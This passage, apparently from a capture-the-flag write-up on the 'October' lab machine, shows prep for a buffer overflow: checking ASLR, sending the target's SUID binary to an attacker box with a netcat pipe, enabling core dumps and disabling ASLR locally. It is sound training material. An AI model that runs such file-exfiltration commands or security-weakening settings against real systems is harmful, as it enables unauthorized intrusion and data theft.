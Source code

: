 Since the memory address changed, I figured the ASLR kernel countermeasure was enabled. I was also able to verify that ASLR was enabled by checking the following:

```
$ cat /proc/sys/kernel/randomize_va_space
2
```

2 meant that ASLR was enabled to fully randomize the stack layout which was why the memory address would change after every attempt.

At this point, I figured it would be better to develop a buffer overflow exploit for this binary on one of my local machines, so I transferred the file from the October machine to my kali machine via netcat.

On the October machine:

```bash
cat /usr/local/bin/ovrflw - | nc 10.10.14.33 2002
```

On my kali machine:

```
$ ncat -nlvp 2002 > overflw
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2002
Ncat: Listening on 0.0.0.0:2002
Ncat: Connection from 10.10.10.16.
Ncat: Connection from 10.10.10.16:60560.
```

Eventually, I stopped the download and verified the file's checksum to ensure it wasn't corrupt:

```
$ sha1sum /usr/local/bin/ovrflw
e93408c2c717d425fd175818697c9a8d62c5022a  /usr/local/bin/ovrflw
```

The checksum matched on my kali machine!

## Enabling Core Dumps

*Word of caution: only enable core dumps on debugging/development machines since they can contain sensitive information!*

This isn't a necessary step, but if you wish to enable core dumps on your machine, you can do something like the following:

```bash
echo '/tmp/core_%e.%p' | sudo tee /proc/sys/kernel/core_pattern
sudo systemctl daemon-reload
ulimit -c unlimited
```

The following command below disables ASLR so that you can reliably overflow a particular address:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
